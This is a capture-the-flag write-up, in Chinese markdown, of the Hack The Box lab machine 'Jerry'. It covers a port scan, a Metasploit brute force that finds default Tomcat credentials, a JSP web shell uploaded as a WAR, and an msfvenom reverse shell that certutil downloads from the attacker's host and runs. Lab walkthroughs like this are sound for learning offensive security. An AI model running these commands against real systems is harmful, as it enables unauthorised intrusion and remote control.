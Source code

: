 # Jerry
- URL : https://app.hackthebox.eu/machines/144
- IP :10.129.1.110

## Scan
- 掃 Port
	- rustscan -a 10.129.1.110 -r 1-65535
	- ![](https://i.imgur.com/Eo7xo0g.png)
	- 發現有開8080
## Brute Force
- 嘗試 msf 爆破
	- `auxiliary/scanner/http/tomcat_mgr_login`
	- 發現密碼是 `tomcat:s3cret`
    - ![](https://i.imgur.com/cxpZApC.png)
- Wordlist
    - /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
    - /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
## 進入 Manager APP
- 發現不登入直接按 Manager App 就可以進後台ㄌ= =
    - ![](https://i.imgur.com/NsGdRoj.png)
    - ![](https://i.imgur.com/LQwHTzl.png)
    - ![](https://i.imgur.com/F8NaHMz.png)
## Web shell
- 準備 jsp web shell
    - https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp
        - ![](https://i.imgur.com/nOjaVlZ.png)
    - `jar -cvf cmd.war cmd.jsp`
        - ![](https://i.imgur.com/777lPwk.png)
- 上傳 webshell
    - ![](https://i.imgur.com/6fmGHir.png)
- 執行 webshell
    - ![](https://i.imgur.com/olnHhyd.png)
    - 發現本來就是 system 權限
- 確認系統資料
    - ![](https://i.imgur.com/Ue6dTUE.png)
    - 64 bit
## Reverse shell
- 準備 Reverse shell
    - `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.35 LPORT=7877 -f exe > shell.exe`
- 下載 reverse shell
    - `certutil -urlcache -f http://10.10.16.35/shell.exe shell8787.exe`
    - ![](https://i.imgur.com/OI4Au01.png)
- 執行 Reverse shell
    - ![](https://i.imgur.com/RXZuM8K.png)
- 取得 Flag
    - ![](https://i.imgur.com/lficF3v.png)
    - ![](https://i.imgur.com/pSWHq2O.png)
